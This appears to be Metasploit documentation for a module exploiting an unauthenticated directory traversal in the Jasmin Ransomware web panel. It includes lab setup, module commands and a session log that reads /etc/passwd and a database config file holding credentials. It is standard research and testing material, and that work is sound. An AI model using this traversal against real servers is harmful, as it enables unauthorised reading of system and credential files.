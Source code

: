## Vulnerable Application

The Jasmin Ransomware web server contains an unauthenticated directory traversal vulnerability
within the download functionality. As of April 15, 2024 this was still unpatched, so all
versions are vulnerable. The last patch was in 2021, so it will likely not ever be patched.

### Install

create a LAMP server (using php 8.2 worked for me, 7.2 did not).
Run the following commands:

```
git clone https://github.com/codesiddhant/Jasmin-Ransomware.git
cd Jasmin-Ransomware
sudo cp -r Web\ Panel/* /var/www/html/
sudo chown www-data:www-data /var/www/html/*
sudo mysql -p
```

Execute the following SQL commands:

```
CREATE DATABASE jasmin_db;
CREATE USER 'jasminadmin'@'localhost' IDENTIFIED BY '123456';
GRANT ALL PRIVILEGES ON jasmin_db.* TO 'jasminadmin'@'localhost';
Exit
```

Now setup the database:
`sudo mysql -u jasminadmin -p123456 jasmin_db < Web\ Panel/database/jasmin_db.sql`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/jasmin_ransomware_dir_traversal`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get the content of a file if it exists.

## Options

### FILE

File to retrieve. `etc/passwd` is the default, but
`var/www/html/database/db_conection.php` contains the
database credentials.

## Scenarios

### Jasmin installed on Ubuntu 22.04

```
msf > use auxiliary/gather/jasmin_ransomware_dir_traversal
msf auxiliary(gather/jasmin_ransomware_dir_traversal) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(gather/jasmin_ransomware_dir_traversal) > set verbose true
verbose => true
msf auxiliary(gather/jasmin_ransomware_dir_traversal) > rexploit
[*] Reloading module...

[+] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
arangodb:x:998:999:ArangoDB Application User:/usr/share/arangodb3:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
postgres:x:115:121:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
dovecot:x:116:122:Dovecot mail server,,,:/usr/lib/dovecot:/usr/sbin/nologin
dovenull:x:117:123:Dovecot login user,,,:/nonexistent:/usr/sbin/nologin
rtkit:x:118:124:RealtimeKit,,,:/proc:/usr/sbin/nologin
kernoops:x:119:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
cups-pk-helper:x:120:125:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
systemd-oom:x:121:128:systemd Userspace OOM Killer,,,:/run/systemd:/usr/sbin/nologin
whoopsie:x:122:129::/nonexistent:/bin/false
geoclue:x:123:130::/var/lib/geoclue:/usr/sbin/nologin
avahi-autoipd:x:124:131:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
avahi:x:125:132:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
nm-openvpn:x:126:133:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
saned:x:127:135::/var/lib/saned:/usr/sbin/nologin
colord:x:129:136:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
sssd:x:130:137:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
pulse:x:131:138:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin
speech-dispatcher:x:132:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
gnome-initial-setup:x:133:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:134:140:Gnome Display Manager:/var/lib/gdm3:/bin/false
mysql:x:136:143:MySQL Server,,,:/nonexistent:/bin/false

[+] Saved file to: /root/.msf4/loot/20240415125844_default_127.0.0.1_jasmin.webpanel._670418.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(gather/jasmin_ransomware_dir_traversal) > set FILE var/www/html/data
base/db_conection.php
FILE => var/www/html/database/db_conection.php
msf auxiliary(gather/jasmin_ransomware_dir_traversal) > rexploit
[*] Reloading module...

[+] <?php
$dbcon=mysqli_connect("localhost","jasminadmin","123456");

mysqli_select_db($dbcon,"jasmin_db");

?>

[+] Saved file to: /root/.msf4/loot/20240415125905_default_127.0.0.1_jasmin.webpanel._177654.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(gather/jasmin_ransomware_dir_traversal) >
```

